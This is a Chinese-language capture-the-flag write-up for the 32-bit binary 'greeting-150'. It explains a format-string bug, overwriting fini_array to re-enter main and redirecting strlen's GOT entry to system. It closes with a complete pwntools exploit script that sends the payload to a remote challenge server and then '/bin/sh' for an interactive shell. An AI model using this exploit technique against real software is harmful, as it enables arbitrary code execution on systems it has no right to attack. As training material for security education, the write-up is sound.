






# greeting-150  
32位程序，没开RELRO，说明1可以淦got表，没开pie说明可以随便打    
  
在main函数中存在格式化字符串漏洞，可以实现任意地址写  
## 解题思路  
由于程序中存在system函数，可以想让strlen.got处的值变为system.plt，就能在调用strlen时实际调用system函数了  
但是由于执行到格式化字符串后程序直接退出了，因此需要让程序执行完main后重新回到main函数开头  
为此我们需要先知道main函数的调用过程  
在start函数中，会有init_array与fini_array两个数组，他们都保存着一些函数的地址，并且在调用main之前依次调用init_array中的函数，并在main函数结束后依次调用fini_array中的函数  
  
  
使用pwndbg查看  

因此把fini_array中的函数地址改为main函数地址（最后一字节改为0xed即可）后就能重复调用main了  
## 解题过程  
首先payload需要有2字节进行对齐（字符串s的开头是Nice to meet you, ），调试后发现第一个参数对应的索引为12，后面都没什么难度，直接放改完后的情况  
  
  
PS:这里很多博客都在人云亦云，说什么一定要按填充字符数从小到大的顺序，其实并不需要，我这里注释掉的部分和实际写的部分就是可以互相替换的。  
```
from pwn import *
context.log_level = 'debug'

if len(sys.argv) == 1 or sys.argv[1] == 'l':
    p = process('./greeting-150')
    elf = ELF('./greeting-150')
else:
    p = remote('61.147.171.105', 51865)
    elf = ELF('./greeting-150') 
    pause()
p.recvuntil(b'name... ')
pause()
# 字符串起始位置对应第12个参数
fini_got=0x8049934
getlen_got=0x8049a54
# payload=b'aa'
# payload+=p32(fini_got)+p32(getlen_got+2)+p32(getlen_got)
# payload+=b'%205c%12$hhn%1815c%13$hn%31884c%14$hn'
payload=b'aa'
payload+=p32(fini_got)+p32(getlen_got+2)+p32(getlen_got)
payload+=b'%205c%12$hhn%33699c%14$hn%33652c%13$hn'

p.sendline(payload)
p.recvuntil(b'name... ')
p.sendline(b'/bin/sh\x00')

p.interactive()
```